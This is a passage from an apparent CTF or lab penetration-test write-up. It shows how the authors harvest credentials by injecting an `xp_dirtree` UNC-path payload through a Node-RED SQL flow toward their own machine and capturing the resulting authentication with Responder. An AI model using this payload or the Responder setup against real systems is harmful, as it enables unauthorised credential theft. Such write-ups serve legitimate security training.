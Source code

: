 ```c
sshd:x:129:65534::/run/sshd:/usr/sbin/nologin
```

We found one more user on the system.

| Username |
| -------- |
| REDACTED |

## Credential Harvesting: Man-in-the-Middle by Authentication Relaying

Since we faced a `dead end` with the initial access machine, we went back to the `dashboard` of the `Node-RED` application and started investigating further.

By editing the `SQL object` in the already given `Flow chart` we entered our payload using `xp_dirtree` pointed to out local machine to grab potential credentials.

![](images/2024-03-28_14-13_node-red_query.png)

```c
xp_dirtree '\\10.8.0.2\foobar\';
```

We clicked on `Deploy` and got a hit on `Responder` which we spun up before.

```c
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0

  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
```